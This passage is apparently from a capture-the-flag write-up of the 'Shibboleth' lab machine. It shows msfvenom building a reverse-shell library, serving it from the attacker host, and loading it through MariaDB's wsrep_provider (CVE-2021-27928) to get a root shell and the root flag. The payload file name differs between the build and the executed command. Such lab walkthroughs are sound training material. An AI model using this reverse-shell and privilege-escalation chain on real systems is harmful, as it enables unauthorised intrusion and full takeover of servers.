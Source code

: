 ## MSFVenom Payload

First create our exploit with MSFVenom:

```sh
┌──(root💀kali)-[~/htb/shibboleth]
└─# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.62 LPORT=4444 -f elf-so -o pencer.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: pencer.so
```

Start a web server on Kali so we can grab the file:

```sh
┌──(root💀kali)-[~/htb/shibboleth]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Pull it across:

```text
ipmi-svc@shibboleth:/dev/shm$ wget http://10.10.14.62/pencer.so
--2021-11-28 22:47:14--  http://10.10.14.62/pencer.so
Connecting to 10.10.14.62:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘pencer.so’
pencer.so          100%[===========>]     476  --.-KB/s    in 0s
2021-11-28 22:47:14 (81.9 MB/s) - ‘pencer.so’ saved [476/476]
```

## Privilege Escalation

Start a netcat listener on Kali, and then execute the exploit on the box using mysql:

```text
ipmi-svc@shibboleth:/dev/shm$ mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/dev/shm/CVE-2021-27928.so";'
Enter password:
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query
```

## Root Flag

Switch back to Kali to see we have a root shell. Let's grab the flag:

```text
┌──(root💀kali)-[~/htb/shibboleth]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.124] 33088
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
064275d7a96d3f300917a45b59bf97b6
```

All done. See you next time.
